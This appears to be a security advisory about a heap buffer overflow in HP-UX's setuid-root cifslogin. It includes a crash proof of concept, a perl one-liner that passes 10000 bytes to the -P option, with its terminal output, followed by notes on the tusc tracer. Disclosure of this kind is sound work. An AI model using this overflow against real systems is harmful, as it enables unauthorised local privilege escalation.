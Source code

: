     If you don't specify a share name for a share-level security server,
    cifslogin prompts the user for the share name.

    If the password is not supplied with the -S or -P option and if
    the user is not already logged in, cifslogin prompts the user for
    a password.

    A security vulnerability in the product allows local users to overflow one of
    the parameters (-U, -D, -P, -S, -N, -u,) and cause the application to execute
    arbitrary code. Since the program is setuid root, elevated privileges
    can be gained.


    In case that the attacker provide an overlong filename (for example, longer
    than 10000 bytes) for example parameter "-P", it would overflow a dynamic
    allocated buffer.The attacker could modify arbitrary memory address (such as
    saved return address, and function pointer, etc.) with some features of
    malloc()/free() implementation by overwriting the border data structure
    of the next dynamic memory chunk.


    On HP-UX platform, attacker could obtain root group privilege;



    Exploit:
    ==========


    $ id
    uid=110(alex) gid=102(informix)
    $

    $ uname -a
    HP-UX Lab02 B.11.11 U 9000/800 1613339393 unlimited-user license
    $

    $ ls -la /opt/cifsclient/bin/cifslogin
    -rwsr-xr-x   1 root       users        53248 Mar 28  2001 /opt/cifsclient/bin/cifslogin


    $ /opt/cifsclient/bin/cifslogin -P `perl -e '{print "A"x10000}'`
    Memory fault

    $


    MAPPED WITH TUSC:

    Brief description about the command:

    tusc-7.3

    Traces the system calls a process invokes in HP-UX 11. It displays arguments in a symbolic way, shows the
    first bytes of read and write buffers and shows signal information when available. Tusc can attach to live
    processes by providing PIDs as arguments. This release also provides a truss command compatible with the
    equivalent Solaris utility. Note that source code is unavailable for tusc and that the shipped tusc binary
    ONLY works on HP-UX 11.X. Please download the equivalent package for HP-UX 10.X - called trace -
    if you don't have HP-UX 11.X.
